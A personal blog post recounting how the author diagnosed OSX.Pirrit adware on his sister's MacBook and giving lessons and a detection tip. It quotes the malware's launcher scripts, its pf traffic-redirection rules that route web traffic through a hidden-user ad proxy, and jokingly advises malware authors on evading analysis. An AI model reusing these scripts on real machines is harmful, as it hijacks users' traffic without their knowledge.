 +++
slug = "a-nasty-mac-virus"
date = "2016-07-09T15:36:52+02:00"
description = ""
draft = false
tags = []
title = "A Nasty Mac Virus, or How I Learned To Love the App Store"
topics = []

+++

Some time ago my little sister complained that her MacBook was getting slow,
and had frequent freezes, to the point it was barely usable any more.

She also was seeing many ads when browsing, even though she had an ad blocker
instead.

So I lend her my own laptop while I kept hers to investigate.

Here's what happened next ...

<!--more-->

# Mysterious processes

In order to investigate the freezes, I start `htop`[^1] to have a look
at the processes that are running.

I see a bunch of scripts running (as root), and some other
processes running with weird user names:

```text
root          /bin/sh  /etc/branchiosaurian.sh
instroke      /Library/branchiosaurian/Contents/MacOS/branchiosaurian
```

Googling "branchiosaurian virus MacOS" or "instroke user name" leads to nowhere.

# Strange scripts

The process are running from a strange location: it's rare to see `*.sh` scripts
in `/etc`, usually `/etc` is only used for configuration files.

So I decide to see how many there are in `/etc`:


```text
$ ls /etc/*.sh
/etc/Dicyemida.sh*
/etc/Fulah.sh*
/etc/Gothism.sh*
/etc/audile.sh*
/etc/axogamy.sh*
/etc/bacteriohemolysin.sh*
/etc/branchiosaurian.sh*
/etc/duello.sh*
/etc/entry.sh*
/etc/gallflowerUpd.sh*
/etc/hemodystrophy.sh*
/etc/lichenlike.sh*
/etc/overreach.sh*
/etc/retinene.sh*
/etc/run_upd.sh*
/etc/sidereally.sh*
/etc/tealess.sh*
/etc/thiocyanide.sh*
/etc/unwittingly.sh
```

All the scripts look the same, only the weird names
for the process and the user are different:

```bash
if [ -a /Library/branchiosaurian/Contents/MacOS/branchiosaurian ];
then
  sleep 10
  sudo pfctl -evf /etc/branchiosaurian.conf
  sudo -u Benjy /Library/branchiosaurian/Contents/MacOS/branchiosaurian
fi
exit 0
```

Each of them has a matching folder in `/Library/<name>`

`/Library/<name>/Contents/MacOS/<name>` is a Mach-O C++ executable, with
dependencies on Qt4 frameworks stuff (`Qt4Core`, `QtGui` and `QtNetwork`)
in `Contents/Frameworks`, like any `Qt` application.

(Except they are in `/Library` and not `/Applications` ...)


There's also a script in `Contents/MacOS/rec_script.sh` which contains:

```bash
# set redirections
HIDDEN_USER=$(sudo defaults read /Library/Preferences/com.common.plist user_id)
echo $HIDDEN_USER

activeInterface=$(route get default | sed -n -e 's/^.*interface: //p')
if [ -n "$activeInterface" ]; then
    pfData="rdr pass inet proto tcp from $activeInterface to any port 80 -> 127.0.0.1 port 9882\n\
    pass out on $activeInterface route-to lo0  inet proto tcp from $activeInterface to any port 80 keep state\n\
    pass out proto tcp all user "$HIDDEN_USER"\n"
    echo "$pfData" > /etc/pf_proxy.conf
else
    echo "Unable to find active interface"
    exit 1
fi

exit 0
```

And a configuration file in `/etc`

```text
$ cat /etc/branchiosaurian.conf
rdr pass inet proto tcp from en1 to any port 80 -> 127.0.0.1 port 9882
pass out on en1 route-to lo0  inet proto tcp from en1 to any port 80 keep state
pass out proto tcp all user indianaite
```


Finally, a `ps aux` shows a `pfctl` processes running like this:

```text
pfctl -evf /et/<name>.conf
```


So there are a bunch of processes doing something with the network, re-rooting
traffic going through the `80` port to somewhere else. This can't be good ...


# First clue

Confused, I run the only thing I can think of:

```text
$ strings /Library/branchiosaurian/Contents/MacOS/branchiosaurian
...
AdsProxyEngine
userDisabledProxy()
...
```

Ahah! Googling `virus mac AdsProxyEngine` leads to reddit thread:
*[Ever heard of the process uncontainable?](
https://www.reddit.com/r/apple/comments/4g4pup/ever_heard_of_the_process_uncontainable/)*

There's a confused Mac user who is seeing processes with weird names too:
(Here, a `uncontainable` process is running as the `razoredge` user)

# Following the links

Reading the thread leads to the following pages, which explain everything:

* [Analysis of an Intrusive Cross-Platform Adware: OSX/Pirrit](
https://objective-see.com/blog/blog_0x0E.html)

* [Cybereason Labs Analysis: The Minds Behind the OSX.Pirrit Malicious Adware](
  http://www.cybereason.com/cybereason-labs-analysis-the-minds-behind-the-osx-pirrit/)

Here's a quick summary:

1. The virus is known as "OSX.Pirrit": it started as a Windows
   program, and then ported to Mac.

2. The virus installs a program well hidden which intercepts traffic to external
   websites in order to insert ads. That's what causes the freezes, and the fact
   that AdBlock does not seem to work. It's called an "adware" (a portmanteau
   word from "ads" and "software")

3. Fortunately for us, one of the programmers made the mistake of packaging the
   software on its own machine using `tar`, which records the user name and the
   date. That's how the researchers from Cybereason were able to find woh's
   behind the adware: a guy working for TargetingEdge, a "online marketing"
   company.

4. Quoting the article from Cybereason:

> The adware's creators removed the original installers for MPlayerX, NicePlayer
> and VLC, legitimate media players that people can easily download, and replaced
> them with an installer that has OSX.Pirrit as well as the media player.


I knew that my sister had installed MPlayerX, so I looked around, and even
found a thread where someone says that the MPlayerX author himself was offering
the adware bundled with the installer on his web site.
(It's a rumour, no way for me to check if this is true ...)

# Lessons learned

* You can create hidden users on mac (it only takes a few tricks with the
  preferences of the login window)

* You can use `dscl` to display user names (`/etc/passwd` won't help):

```text
$ dscl . -list /Users UniqueID
```

  By the way, that's how you can check whether you are infected with this virus
  or not: the names change, but the user numeric ID is hard-coded and is always
  401 ...

* Using random names from `/usr/share/dict/words` to name things make it really
  hard to find clues using a search engine. (And this file is guaranteed to
  exist on any Mac version!)

* If you create a malware, take the time to strip the executable and obfuscate
  the source code&nbsp;;)

* Also, don't package it on your own machine with your regular account!

* Even if MPlayerX is free, you can buy it from the Apple Store for less than
  2 euros, and it's much safer: you know that Apple has audited the software,
  it's signed, so you know where it comes from, and you don't even have to open
  a web browser and risk downloading stuff from the wrong place.
  (Note that you still have to trust Apple ...)

* If you can't accept the fact that you're gonna have to pay even if you use
  free or open-source stuff on Mac, well, switch to Linux :) There's a great
  article explaining why this kind of nasty stuff can't happen if you use the
  packages provided by your distribution: *[Why Maintainers Matter](
  http://kmkeen.com/maintainers-matter/)*

# Next steps

First, I'm going to reformat and re-install the operating system using
[DiskMaker X](http://diskmakerx.com/), but I don't really know what to tell my
sister so this does not happen again.

Don't tell me to install an antivirus, I know [it won't work](
http://www.ranum.com/security/computer_security/editorials/dumb/)

People tell me there's a GUI from `homebrew`, I'll try that, but if you have
some ideas, (besides only using the Apple Store for now), I'd love to
[hear from you]({{< ref "pages/feedback.md" >}})

There's also the option of only allowing apps from the AppStore
(not even those which are signed with a developer key)


[^1]: Yup, `htop` works really well on Mac too since the 2.0 version. You can learn more about this here: *[How htop Was Made Portable](https://www.youtube.com/watch?v=g5GamptmWeA)*
